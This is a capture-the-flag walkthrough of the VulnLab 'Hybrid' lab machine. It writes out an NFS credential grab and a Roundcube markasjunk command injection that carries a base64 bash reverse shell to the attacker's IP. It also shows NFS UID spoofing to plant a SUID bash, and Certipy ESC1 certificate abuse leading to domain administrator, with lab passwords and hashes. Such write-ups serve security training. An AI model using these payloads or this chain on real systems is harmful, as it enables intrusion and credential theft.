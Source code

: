 ```yaml
---
title: Hybrid
date: 2024-06-01 09:45:47 +07:00
modified: 2024-06-01 09:45:47 +07:00
tags: [ Hybrid, VulnLab, chain, Writeup]
description: Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.
image: https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Hybrid</font>

​		13<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/Hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/Hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/11.png)

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/Hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/15.png)

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/16.png)


With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/17.png)

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/Hybrid/21.png)

Now I can request pfx with the right length of RSA

`certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c5246fdbc7ba95dcef4126d57bd' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/Hybrid/24.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/26.png)